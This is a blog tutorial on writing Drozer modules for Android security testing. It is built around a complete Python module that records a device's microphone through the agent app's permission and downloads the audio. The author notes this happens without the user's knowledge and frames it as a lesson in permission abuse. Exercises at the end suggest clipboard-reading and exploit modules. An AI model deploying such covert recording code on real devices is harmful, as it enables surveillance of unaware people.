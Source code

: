 ```yaml
---
date: "2018-05-13T17:10:13+05:30"
title: "Writing Drozer Modules"
categories:
  - Security
  - CSE
tags:
  - Drozer
  - android
draft: false
---
```


This post is a result of my experimentation with Drozer. Drozer is a security testing framework for Android, developed by MWR Labs. According the Drozer's official [documentation](https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-drozer-user-guide-2015-03-23.pdf):

> Drozer allows you to assume the role of an Android app and interact with other apps. It can do anything that an
installed application can do, such as make use of Android’s Inter-Process Communication (IPC) mechanism and
interact with the underlying operating system.


Drozer modules are written in Python. The module performs operations on an Android device with the help of an agent app installed on the device. The agent app, by default, has permission to use the internet connection only. This permission is required so that the agent can open a ServerSocket on port 31415 (default). The agent will listen for the incoming connections on this port. The console will connect to the agent on this port.


Drozer modules are basically inherited Python classes. The parent class is defined in [drozer.modules.Module](https://github.com/mwrlabs/drozer/blob/develop/src/drozer/modules/base.py). Drozer console provides commands to create a custom module repository which is very useful for the local development of modules.

You can read more about the structure of a Drozer module [here](https://github.com/mwrlabs/drozer/wiki/Writing-a-Module).

I will explain all the critical parts of a Drozer module with the help of a sample module. I will be implementing a module to record and save the sound from the inbuilt mic of an Android device.

I initialized a new module repository using Drozer console using the following command.
{{< highlight bash >}}
dz> module repository create custom
Initialised repository at custom.
{{< /highlight >}}

You will see a new directory `custom` in your current directory after executing above command. Navigate to this directory and create a new folder with any name. I prefer to name this folder same as my module name. In this folder, create a file `__init__.py`. Drozer identifies the folder as a module directory if `__init__.py` is present in the directory. Now you can implement your module in this directory.

To begin implementing our module, create a new file `record.py` in the module directory. Drozer has many different utility classes, which we can use to simplify our implementation. To use these utility classes ([mixins](https://github.com/mwrlabs/drozer/wiki/Using-mixins)), our module class must extend _mixins_ using Python's multiple inheritance feature.

We first need to import all the required mixins. The mixins are stored in `modules.common` package in the Drozer source tree. After importing mixins and extending our class, the code will look like this. You can also import any other standard Python module here.
{{< highlight python >}}
from drozer.modules import common, Module
import os, subprocess, time

class Record(Module, common.Shell, common.FileSystem, common.ClassLoader):
{{< /highlight >}}

Now we will set up the metadata for our module. This information will help Drozer to organize and list our module correctly. We can define name, description, author, date, license, path, permissions, and examples. Most of the available options are self-explanatory. But _path_ and _permissions_ require some explanation.

The _path_ variable defined here is an array which contains the values for the namespace of the module. Drozer supports separate namespaces for each module. We can combine similar modules in the same namespace using this feature.

The _permissions_ array variable contains all the permissions that this module will require for proper functioning. For example, our module will need permission to record audio on the device to work correctly. So we define this permission in the permissions array. The agent app on the device is required to  have this permission. Otherwise, our module will throw an error.

The following snippet shows the metadata section of our module.
{{< highlight python >}}
name = "Record sound from the inbuilt mic of an Android device."
description = "Record sound from the inbuilt mic of an Android device. The default save format is 3GPP. Relies on the agent having the RECORD_AUDIO permission."
examples = """
dz> run custom.record.record
Setting up recorder configuration...
Recording started
Press any key to stop recording

Recording stopped...downloading recording
Screenshot captured. Saved at location /home/yash/work/drozer/1524201166.3gp
"""
author = "Yash Agarwal"
date = "2018-04-14"
license = "BSD (3 clause)"
path = ["custom", "record"]
permissions = ["android.permission.RECORD_AUDIO", "com.mwr.dz.permissions.GET_CONTEXT"]
{{< /highlight >}}

Now we can start implementing the heart of our module, the `execute()` function. This function will be invoked by Drozer when the module is run. Every action that the module is expected to perform should be implemented in this method.

The implementation of `execute()` method is slightly tricky and requires an understanding of different classes and methods provided by the Android API. As we are writing a module to record sound, we will look into the documentation of [MediaRecorder](https://developer.android.com/guide/topics/media/mediarecorder.html) class. Before reading further, go through the documentation about the use of reflection API in Drozer [here](https://github.com/mwrlabs/drozer/wiki/Using-Reflection).

The `execute()` function is given below.
{{< highlight python >}}
def execute(self, arguments):
    # unique file names
    filename = str(int(time.time())) + ".3gp"

    # current working directory of Drozer console
    cwd = self.workingDir()

    # Magic of Reflection API !!!
    recorder = self.new("android.media.MediaRecorder")
    AudioSource = self.klass("android.media.MediaRecorder$AudioSource")
    OutputFormat = self.klass("android.media.MediaRecorder$OutputFormat")
    AudioEncoder = self.klass("android.media.MediaRecorder$AudioEncoder")

    recorder.setAudioSource(AudioSource.MIC)
    recorder.setOutputFormat(OutputFormat.THREE_GPP)
    recorder.setAudioEncoder(AudioEncoder.AMR_NB)
    recorder.setOutputFile("%s/recording.3gp" % cwd)
    recorder.prepare()

    self.stdout.write("Recording started\n")
    recorder.start()
    raw_input("Press any key to stop recording\n")
    recorder.stop()
    self.stdout.write("Recording stopped...\n")
    recorder.reset()
    recorder.release()

    # Download file from device to PC
    length = self.downloadFile("%s/recording.3gp" % cwd, filename)

    if length != None:
        self.stdout.write("Recording saved\n")

    else:
        self.stderr.write("Recording could not be fetched from the device.\n")
{{< /highlight >}}

I followed the sample use case given on [this](https://developer.android.com/reference/android/media/MediaRecorder.html) page, to instantiate and use the _MediaRecorder_ object.

After the recording is finished, we want to save this recorded media file to our computer. Drozer provides a method, [downloadFile](https://github.com/mwrlabs/drozer/blob/c92d74024c653b6dc7de3378a24e51d276ae2c62/src/drozer/modules/common/file_system.py) exactly for this purpose. This method returns the length of the data downloaded on success and `None` otherwise. We can use this information to test the success or failure of the fetching of the recording.

That's all. We have successfully implemented a Drozer module which can record the sound on an Android device without the knowledge of the user. Do you smell something fishy here? The whole idea here depends on that particular `android.permission.RECORD_AUDIO` permission, that our agent app had. This allowed our module to record without _user consent_ (the user actually gave her consent unknowingly, while installing agent app). Many apps nowadays ask for arbitrarily random permissions. Those permissions might not be related to the functionality of the app in any way, but because there is no method to install apps without granting these permissions, the users grant all permissions to these apps. That can be exploited very easily. This tutorial tried to show one of such exploitations.

Here are some exercises that you should try if you want to learn more about Drozer module development.

- A module to initiate a call on a device.
- A module to get the clipboard values on a device
- Try finding a public exploit on Android forums such as XDA and implement that exploit as a Drozer module.

Slightly tougher one.

- A module to terminate a call without user intervention (I do not know if it is possible to do this programmatically. If you implement this successfully, do let me know in comments section.)


Thanks for reading. Cheers :)
